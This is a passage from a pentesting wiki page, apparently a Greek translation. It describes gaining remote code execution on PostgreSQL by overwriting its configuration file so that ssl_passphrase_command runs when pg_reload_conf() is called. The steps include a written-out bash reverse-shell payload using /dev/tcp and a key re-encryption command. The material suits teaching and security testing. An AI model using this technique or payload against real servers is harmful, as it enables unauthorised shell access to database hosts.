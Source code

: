 {% content-ref url="../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions.md" %}
[rce-with-postgresql-extensions.md](../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions.md)
{% endcontent-ref %}

### RCE με το αρχείο ρύθμισης της PostgreSQL
{% hint style="info" %}
Οι ακόλουθοι διανύσματα RCE είναι ιδιαίτερα χρήσιμα σε περιορισμένα πλαίσια SQLi, καθώς όλα τα βήματα μπορούν να πραγματοποιηθούν μέσω εμφωλευμένων δηλώσεων SELECT
{% endhint %}

Το **αρχείο ρύθμισης** της PostgreSQL είναι **εγγράψιμο** από τον χρήστη **postgres**, ο οποίος εκτελεί τη βάση δεδομένων, οπότε ως **υπερχρήστης**, μπορείτε να γράψετε αρχεία στο σύστημα αρχείων και συνεπώς μπορείτε να **αντικαταστήσετε αυτό το αρχείο.**

![](<../.gitbook/assets/image (303).png>)

#### **RCE με ssl\_passphrase\_command**

Περισσότερες πληροφορίες [σχετικά με αυτήν την τεχνική εδώ](https://pulsesecurity.co.nz/articles/postgres-sqli).

Το αρχείο ρύθμισης έχει μερικά ενδιαφέροντα χαρακτηριστικά που μπορούν να οδηγήσουν σε RCE:

* `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Διαδρομή προς τον ιδιωτικό κλειδί της βάσης δεδομένων
* `ssl_passphrase_command = ''` Αν το ιδιωτικό αρχείο προστατεύεται με κωδικό πρόσβασης (κρυπτογραφημένο) η PostgreSQL θα **εκτελέσει την εντολή που υποδεικνύεται σε αυτό το χαρακτηριστικό**.
* `ssl_passphrase_command_supports_reload = off` **Αν** αυτό το χαρακτηριστικό είναι **ενεργοποιημένο** η **εντολή** που εκτελείται αν το κλειδί προστατεύεται με κωδικό πρόσβασης **θα εκτελεστεί** όταν εκτελείται το `pg_reload_conf()`.

Στη συνέχεια, ένας επιτιθέμενος θα πρέπει:

1. **Ανάκτηση ιδιωτικού κλειδιού** από τον διακομιστή
2. **Κρυπτογράφηση** του κατεβασμένου ιδιωτικού κλειδιού:
1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Αντικατάσταση**
4. **Ανάκτηση** της τρέχουσας **ρύθμισης** της PostgreSQL
5. **Αντικατάσταση** της **ρύθμισης** με την ρύθμιση των αναφερόμενων χαρακτηριστικών:
1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
2. `ssl_passphrase_command_supports_reload = on`
6. Εκτέλεση `pg_reload_conf()`

